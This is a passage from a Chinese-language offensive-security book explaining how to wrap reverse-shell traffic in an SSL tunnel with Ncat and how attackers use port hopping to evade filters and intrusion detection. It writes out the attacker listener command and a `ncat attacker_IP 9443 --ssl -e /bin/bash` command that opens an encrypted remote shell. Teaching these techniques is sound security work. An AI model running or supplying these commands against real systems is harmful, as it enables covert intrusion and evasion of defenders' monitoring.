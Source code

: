 *封装* 技术将反向 Shell 流量隐藏在无害的协议或已加密的连接中。这项技术将反向 Shell 通信伪装成合法流量。

图 7-3 展示了一个加密隧道如何在被攻破的服务器与攻击者机器之间工作。如你所见，反向 Shell 连接发生在加密连接之内。

![](img/pg151.jpg)

图 7-3：通过加密通信通道的反向 Shell

我们可以通过多种方式创建一个加密的反向 Shell 连接。其中一种方式是使用 *Ncat*（与 Netcat 不要混淆），它是一个与 Nmap 一起打包的网络工具，允许流量的重定向、读写和加密。

你可以使用以下命令序列在攻击者机器和目标机器之间建立一个被加密隧道封装的反向 Shell 连接。在攻击者机器上，启动一个 SSL（安全套接字层）监听器，使用 Ncat：

```
$ **ncat -v -l 9443 --ssl**

Ncat:(https://nmap.org/ncat)
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert
to use a permanent one.
Ncat: SHA-1 fingerprint: 174A B251 8100 D6BC EFD7 71C2 FEA6 3D32 0D2D 49B2
Ncat: Listening on :::9443 
```

使用 -v（详细输出）标志，指定端口到 -l（监听）标志，然后使用 --ssl 来加密。除非另行指定，否则 Ncat 默认会生成临时的非对称密钥（Rivest-Shamir-Adleman，或 RSA）。

在被攻陷的机器上，以下命令将建立一个加密的反向 Shell。然而，被攻陷的机器必须已安装 Ncat 才能使此命令生效，而它通常默认并不可用：

```
$ **ncat** **`attacker_IP address`** **9443 --ssl -e /bin/bash -v**

Ncat: (https://nmap.org/ncat)
Ncat: Subject: CN=localhost
Ncat: Issuer: CN=localhost
Ncat: SHA-1 fingerprint: BEED 35DF 5C83 60E7 73CF EBB8 B340 F870 8CC3 DD6E
`--snip--`
Ncat: SHA-1 fingerprint: BEED 35DF 5C83 60E7 73CF EBB8 B340 F870 8CC3 DD6E 
```

在这个例子中，我们运行 Ncat 连接到攻击者的监听器。我们使用 --ssl 来加密流量，然后使用 -e /bin/bash 来执行 bash shell。

pwncat 也可以通过使用与 Ncat 相同的命令风格，建立基于 SSL 的连接。请参考 pwncat 的文档 *[`pwncat.readthedocs.io/en/latest/usage.html`](https://pwncat.readthedocs.io/en/latest/usage.html)* 了解如何使用它来建立基于 SSL 的反向 Shell 连接。

### 在目标端口之间切换

*端口跳跃*，或在通信过程中动态切换网络端口，既用于防御活动也用于进攻活动。在进攻方面，这种技术可以确保反向 Shell 的稳定性，并使安全监控系统更难以阻止恶意流量。通过不断更换端口，攻击者可以绕过简单的基于端口的过滤机制和入侵检测系统，这些系统监控特定端口以检测可疑活动。端口跳跃还使防御者更难以阻止反向 Shell 连接；如果某个网络端口变得不可达，端口跳跃会重新建立连接。
